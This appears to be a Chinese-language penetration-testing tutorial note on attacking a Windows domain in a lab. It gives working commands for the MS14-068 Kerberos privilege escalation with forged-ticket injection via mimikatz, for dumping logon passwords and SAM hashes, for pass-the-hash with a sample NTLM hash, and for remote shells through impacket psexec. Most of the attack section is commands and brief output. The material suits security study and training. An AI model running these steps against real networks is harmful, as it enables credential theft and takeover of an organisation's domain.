 ```yaml
---
title: 域渗透入门（二）
categories:
- WindowDomain
tags:
- WindowDomain
---
```


## 参考资料
- 乌云文章：《使用Hash直接登录Windows》
- [维基百科Pass_the_hash的定义](https://en.wikipedia.org/wiki/Pass_the_hash)
- [metasploit mimikatz](https://www.fujieace.com/metasploit/mimikatz.html)
- [Kerberos协议探索系列之票据篇：MS14068漏洞和Kerberos票据的利用说明](https://www.anquanke.com/post/id/172900#h2-0)


## 录制的视频教程

 [域渗透实践篇（二）](https://www.bilibili.com/video/BV1Qz411B7BQ)
1. 域信息搜集
2. ms14-068 域普通用户提权到域管理员

 [域渗透实践篇（三）](https://www.acfun.cn/v/ac15162313)
1. pass the hash票据传递攻击

## Kerberos域用户提权漏洞ms14-068

### 准备域内普通用户权限（以及DC未打补丁）

1. 域控添加一个user用户

2. 192.168.1.3 计算机添加user用户
```
net user user admin!@#45      #添加一个用户user，添加密码
---
注销管理员用户，登陆用户user
用户名：SRV-WEB-KIT\user
密码：admin!@#45
```
3. 测试域普通用户与域管理员区别

4. 生成高权限票据
```
python ms14-068.py -u whale@0day.org -s  S-1-5-21-1812960810-2335050734-3517558805-1178 -d 192.168.1.131 -p qwe123$%
 
需要普通域用户名称
普通域用户sid
普通域用户明文密码或者hash
```
5. mimikatz导入hash
```
mimikatz.exe
kerberos::list			#列出内存中的票据信息
kerberos::purge         #清除内存中的票据信息
kerberos::ptc TGT_whale@rootkit.org.ccache(生成的高权限票据全名)	#导入高权限票据到内存，获得域管理员权限

```
## 票据传递
```
mimikatz_command -f sekurlsa::logonPasswords
导出登陆的密码

python /usr/share/doc/python-impacket/examples/psexec.py Administrator@192.168.1.2 cmd.exe

使用密码admin!@#45，成功连接

使用ntlm hash，ccef208c6485269c20db2cad21734fe7，连接失败

有两种可能 
1. 工具psexec.py，只能使用明文密码连接
2. hash出错，不是ccef208c6485269c20db2cad21734fe7, 而是其他hash
3. windows 2012 R2不支持pass the hash
```
### NT hash、LM hash、NTLM hash
LM hash的全名LAN Manager Hash，容易被破解。因此windows visa与winSever2008之后的版本默认禁用了LM hash。
NTLM hash取代了LM hash，安全性更高，从windowsSever2003开始，默认使用NTLM hash。

所说的NT hash就是NTLM hash，有些文档这么称呼，我还以为是两种不同的加密方式，只是称呼不同而已。

### mimikatz提权ntlm hash
```
mimikatz.exe
log
lsadump::sam /sam:sam.hiv /system:sys.hiv
```
### 查看DC机器与Web机器的hash是否一致
```
修改web机器密码：net user administrator qwe123$%
保持这个密码与DC一致

DC (192.168.1.131): 4b211aa32bcd009f4d46f52438fe433d
WEB(192.168.1.130)：4b211aa32bcd009f4d46f52438fe433d

privilege::debug
sekurlsa::pth /user:administrator /domain:0day.org /ntlm:4b211aa32bcd009f4d46f52438fe433d
```
---
```
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
一行命令，将结果保存到log.txt
```
---
```
sekurlsa::logonpasswords
dir \\OWA2010SP3\C$
```
